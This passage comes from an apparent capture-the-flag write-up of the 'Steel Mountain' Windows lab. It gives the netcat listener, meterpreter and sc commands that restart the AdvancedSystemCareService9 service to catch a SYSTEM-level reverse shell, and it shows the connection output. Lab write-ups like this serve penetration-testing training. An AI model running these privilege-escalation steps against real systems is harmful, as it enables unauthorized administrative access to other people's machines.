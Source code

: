 Open another terminal and use netcat listener on port 4443 to get the reverse shell.
```shell
nc -lnvp 4443
```
<img src="{{'/assets/img/images/04.Steel-Mountain/21.png' | prepend: site.baseurl }}" height="200">

Now, load the command prompt shell using the command in the meterpreter shell.

```shell
shell
```

Restart the AdvancedSystemCareService9 service by using the following commands.

```shell
sc stop AdvancedSystemCareService9
```
```shell
sc start AdvancedSystemCareService9
```

Now we get a reverse shell in the other terminal window running as system32!

```shell
❯ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.6.29.149] from (UNKNOWN) [10.10.70.179] 49343
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C: \Windows\system32>
```
